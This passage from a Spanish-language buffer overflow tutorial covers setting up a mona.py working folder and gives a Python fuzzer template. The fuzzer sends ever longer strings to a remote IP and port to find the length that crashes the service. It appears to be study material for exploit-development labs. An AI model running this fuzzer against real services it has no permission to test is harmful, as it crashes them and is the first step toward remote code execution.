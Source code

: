 ### Generación de workspace para `mona.py` (opcional)

Para facilitar el uso de `mona.py`, se puede generar un entorno de trabajo (a secas es una carpeta) que contendría lo que `mona.py` genere a partir de los comandos que se utilicen (payloads, patrones, badchars, etc). Ejecutando `!mona config -set workingfolder C:\Users\SrRequiem\Desktop\%p` se indicaría el lugar y a partir del primer comando de `mona.py` que genere archivos, se podrá ver reflejado en el sistema de archivos.

## Fuzzing

En esta sección se realiza la búsqueda del punto de quiebre del binario. Identificando el número de caracteres que causen un fallo de segmentación.

### Plantilla de fuzzer

```python
#from pwn import *
import socket, sys, time

if len(sys.argv) < 2:
   print "\n[!] Uso: python " + sys.argv[0] + "<ip-address> " + "<remote-port>\n"
   sys.exit(0)
# Variables globales
ip_address = sys.argv[1]
rport = int(sys.argv[2])

if __name__ == '__main__':
   contador = 100
   #p1 = log.progress("Data") Log de datos en pwntools
   while True:
      #p1.status(f"Enviando {contador} bytes.") Log de datos en pwntools
      print "Enviando %s bytes." % contador
      buffer = 'A' * contador
      try:
         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.connect((ip_address, rport))

         data = s.recv(1024)
         #s.send("USER srrequiem\r\n")
         #data = s.recv(1024)
         s.send("%s\r\n" % buffer)
         data = s.recv(1024)
         contador += 100
         #En algunas ocasiones no suele romperse la conexion lo que evita entrar
         #al codigo de la excepcion por lo que se puede considerar meter un sleep
         #para visualizar en que valor de la iteracion se pausa la ejecucion del binario
         time.sleep(1)
      except Exception as ex:
         print "\n[!] Ha habido un error de conexion\n"
         print ex
         sys.exit(1)
```
